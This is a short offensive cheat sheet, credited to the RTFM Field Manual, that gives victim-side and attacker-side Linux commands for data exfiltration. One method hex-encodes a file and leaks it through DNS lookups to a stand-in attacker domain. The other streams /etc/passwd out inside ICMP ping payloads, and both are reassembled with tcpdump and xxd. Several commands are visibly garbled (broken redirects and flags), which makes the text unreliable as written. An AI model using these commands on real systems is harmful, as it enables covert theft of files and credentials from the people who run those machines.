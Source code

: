 ###### Resource
* RTFM Field Manual 

##### DNS Transfer on Linux
###### On Victim:
###### Hex encode the file to the transfered
* xxd -p secret file.hex

###### Read each line and do a DNS lookup
* for b in `cat file.hex` ; do dig $b.shell.evilexample.com ; done

###### On Attacker:
###### Capture DNS exfil packets
* tcpdump -w /tmp/dnsdemo -s) port 53 and host system.example.com

###### Cut the exfilled hex from the DNS packet
* tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d ' ' | cut -f1 -d' .' | uniq received.txt

###### Reverse the hex encoding 
* xxd -r -p received.txt keys.pgp

##### Exfil Linux over ICMP
###### On victim (never ending 1 liner):
* stringZ=`cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n"`; 
counter=0; while (($counter = ${#stringZ})); do ping -s 16 -c 1 -p 
${stringZ:$counter:16} 192.168.10.10 && counter=$((counter+16));done

###### On attacker (capture packets to data.dmp and parse):
* tcpdump -ntvvSxs 0 'icmp[0]=8' -w data.dmp
* grep 0x0020 data.dmp | cut -c21- | tr -d ' ' | tr -d "\n" | xxd -r -p
